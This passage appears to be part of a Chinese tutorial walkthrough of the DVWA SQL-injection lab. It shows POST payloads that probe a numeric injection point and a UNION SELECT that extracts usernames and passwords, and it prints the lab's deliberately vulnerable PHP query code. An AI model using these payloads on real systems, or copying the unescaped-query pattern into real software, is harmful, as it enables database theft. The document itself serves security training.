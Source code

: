 添加了`mysqli_real_escape_string`函数对特殊字符进行转义同时内容来自POST请求。转义的字符有：  

```Text
\\x00  
\\n  
\\r  
\\  
'  
"  
\\x1a  
```

数字型注入，不用使用上述特殊字符，使用`hackbar`进行`post`即可  

```Text
# 判断注入点  
id=1 and 1=1 &Submit=Submit  
id=1 and 1=2 &Submit=Submit  
  
# 爆数据  
id=1 union select user,password from users&Submit=Submit  
```

### high  

```php  
<?php  
  
if( isset( $_SESSION [ 'id' ] ) ) {  
    // Get input  
    $id = $_SESSION[ 'id' ];  
  
    // Check database  
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";  
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>Something went wrong.</pre>' );  
  
    // Get results  
    while( $row = mysqli_fetch_assoc( $result ) ) {  
        // Get values  
        $first = $row["first_name"];  
        $last  = $row["last_name"];  
  
        // Feedback for end user  
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";  
    }  
  
    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);          
}  
  
?>  
```
